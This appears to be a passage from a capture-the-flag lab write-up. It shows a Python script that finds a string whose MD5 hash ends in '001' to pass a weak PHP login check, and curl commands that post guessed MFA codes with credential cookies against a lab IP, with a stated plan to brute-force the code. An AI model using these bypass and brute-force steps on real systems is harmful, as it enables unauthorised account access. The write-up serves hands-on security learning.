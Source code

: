 ```
 php -a
Interactive mode enabled

php > $var ="pure test";
php > echo $var;
pure test
php > echo substr($var,-3);
est
php > 
```
so it will simply return the last three character of the string.So we could probably fake that.

so What we are going to do we are going to create a python script and I took this script from ```John Hammond```

Here is goes
```
#!/usr/bin/env python3

from hashlib import md5
import itertools
from string import ascii_lowercase

couinter = 1
while True:

	combinations =itertools.combinations_with_replacement(ascii_lowercase,r= couinter)
	for combo in combinations:
		
		string = "".join(combo)
		m = md5(string.encode("utf-8"))
		the_hash = m.hexdigest()
		if the_hash.endswith('001'):
			print(string,the_hash)
			exit()
	couinter += 1
```
This small script found the string . where you can see the string is abkr and the hash ends with 001. 
Now let's try to login with the credentials

okay!! it works. But we now need to pass the code.We are going to use bash to brute force it.
let's use curl to post the request
```
curl -X POST  10.10.175.36/console/mfa.php
curl -v 10.10.175.36/console/mfa.php --cookie "user={the_user_name}; pwd={the_password_you_have_found}"
curl -X POST --data "code=0000" 10.10.175.36/console/mfa.php --cookie "user={the_user_name}; pwd={the_password_you_have_found}"
```
now it gives us the response of incorrect password. Now we can loop through that data and find that actual code.
